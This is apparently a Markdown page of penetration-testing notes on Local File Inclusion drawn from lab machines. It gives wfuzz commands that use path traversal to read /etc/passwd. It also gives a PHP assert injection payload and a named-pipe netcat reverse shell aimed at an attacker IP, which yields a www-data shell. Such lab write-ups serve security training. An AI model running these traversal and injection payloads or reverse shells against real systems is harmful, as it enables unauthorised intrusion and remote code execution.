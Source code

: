 ```yaml
---
layout: default
title: Local File Inclusion
parent: Web Exploits
nav_order: 1
---
```


# Local File Inclusion

---

## Parameter Discovery with WFUZZ (Simple)

Use wfuzz to fuzz a parameter and test for LFI.

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hh 0 "http://192.168.202.80/console/file.php?FUZZ=../../../../../../../etc/passwd"
```

![fuzz_lfi](../../../../assets/images/ctfs/proving_grounds/ha_natraj/fuzz_lfi.png)

This reveals the parameter _file_.

Confirm LFI vulnerability by displaying _/etc/passwd_

![etc_passwd](../../../../assets/images/ctfs/proving_grounds/ha_natraj/etc_passwd.png)

## Parameter Discovery with WFUZZ (PHPSESSID)

We will do some fuzzing against the site.

First we need to get the session ID from Burp.

![burp2](../../../../assets/images/ctfs/proving_grounds/dc-9/burp2.png)

Now we can run WFUZZ against the _/welcome.php_ page with the _PHPSESSID_ parameter and using \*--hh 963" to ignore output that is 963 bytes.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404 --hh 963 -b "PHPSESSID=3f7m38o92mpldiuu4mug1f18t0" "http://192.168.160.209/welcome.php?FUZZ=../../../../../../../etc/passwd"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.160.209/welcome.php?FUZZ=../../../../../../../etc/passwd
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000002206:   200        85 L     150 W      3316 Ch     "file"

Total time: 0
Processed Requests: 3452
Filtered Requests: 3451
Requests/sec.: 0

```

We have the parameter "file" to use to display _/etc/passwd_

![lfi](../../../../assets/images/ctfs/proving_grounds/dc-9/lfi.png)

## LFI via PHP's 'assert' Options

![index](../../../../assets/images/ctfs/proving_grounds/assertion/index.png)

The URL looks susceptible to LFI, but we get a custom message after a simple test.

![brother](../../../../assets/images/ctfs/proving_grounds/assertion/brother.png)

Reaching the following page from HackTricks there are some _LFI via PHP's 'assert'_ options when the site appears to be filtering traversal strings, such as this site is doing.

[HackTricks File Inclusion Page](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```bash
http://192.168.232.94/index.php?page=%27%20and%20die(system(%22whoami%22))%20or%20%27
```

![whoami](../../../../assets/images/ctfs/proving_grounds/assertion/whoami.png)

Generate a reverse shell with revshellgen

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Executing the following payload we get a reverse shell in our netcat listener.

```bash
URL: 192.168.232.94/index.php?page=' and die(system("rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl")) or '


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.94] 59352
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
